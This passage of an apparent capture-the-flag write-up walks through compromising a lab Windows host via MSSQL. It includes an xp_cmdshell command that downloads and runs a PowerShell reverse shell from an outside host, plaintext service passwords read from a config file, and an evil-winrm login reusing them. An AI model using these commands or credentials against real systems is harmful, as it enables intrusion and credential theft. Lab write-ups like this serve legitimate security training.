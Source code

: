 ```
    use_link {link}            - linked server to use (set use_link localhost to go back to local or use_link .. to get back one step)
    ! {cmd}                    - executes a local shell cmd
    show_query                 - show query
    mask_query                 - mask query
```
That means we can run a reverse shell to our local machine
```
enable xp cmdshell

use nishang (or whatever you come up with)
EXEC xp_cmdshell 'powershell -NoProfile -ExecutionPolicy Bypass -Command "& {IEX(New-Object Net.WebClient).DownloadString(''http://10.10.16.9:8000/Invoke-PowerShellTcp.ps1'')}"'

Then we get the shell as sequel\sql_svc

And From C:\Users\ we found another user ryan
```

Then enumerating the valid config
```
PS C:\SQL2019\ExpressAdv_ENU> cat sql-Configuration.INI
[OPTIONS]
ACTION="Install"
QUIET="True"
FEATURES=SQL
INSTANCENAME="SQLEXPRESS"
INSTANCEID="SQLEXPRESS"
RSSVCACCOUNT="NT Service\ReportServer$SQLEXPRESS"
AGTSVCACCOUNT="NT AUTHORITY\NETWORK SERVICE"
AGTSVCSTARTUPTYPE="Manual"
COMMFABRICPORT="0"
COMMFABRICNETWORKLEVEL=""0"
COMMFABRICENCRYPTION="0"
MATRIXCMBRICKCOMMPORT="0"
SQLSVCSTARTUPTYPE="Automatic"
FILESTREAMLEVEL="0"
ENABLERANU="False" 
SQLCOLLATION="SQL_Latin1_General_CP1_CI_AS"
SQLSVCACCOUNT="SEQUEL\sql_svc"
SQLSVCPASSWORD="WqSZAF6CysDQbGb3"
SQLSYSADMINACCOUNTS="SEQUEL\Administrator"
SECURITYMODE="SQL"
SAPWD="MSSQLP@ssw0rd!"
ADDCURRENTUSERASSQLADMIN="False"
TCPENABLED="1"
NPENABLED="1"
BROWSERSVCSTARTUPTYPE="Automatic"
IAcceptSQLServerLicenseTerms=True
```

Then we can use this credit `ryan:WqSZAF6CysDQbGb3` and winrm to connect the machine
`evil-winrm -i 10.10.11.51 -u ryan -p WqSZAF6CysDQbGb3`
We can use the bloodhound to plan what next